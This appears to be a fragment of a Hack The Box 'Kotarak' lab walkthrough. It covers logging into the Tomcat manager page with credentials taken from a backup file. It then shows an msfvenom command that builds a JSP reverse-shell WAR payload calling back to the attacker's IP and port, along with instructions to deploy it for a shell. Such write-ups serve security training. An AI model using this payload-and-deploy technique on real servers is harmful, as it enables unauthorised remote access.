





# 15 - Tomcat

# manager/html is the default admin page



Let's provide  the credentials we got from backup file see 10 - Kotarak.md



# Preparing our reverse shell

```bash
┌──(kali㉿kali)-[10.10.14.9/23]-[~/htb/kotarak/gobuster]
└─$ msfvenom -p java/jsp_shell_reverse_tcp  LHOST=10.10.14.9 LPORT=4444 -f war  -o payload.war
Payload size: 1099 bytes
Final size of war file: 1099 bytes
Saved as: payload.war
```

Let's upload payload.war file and deploy it.



We should get a shell after we hit /payload



# Initial Foothold


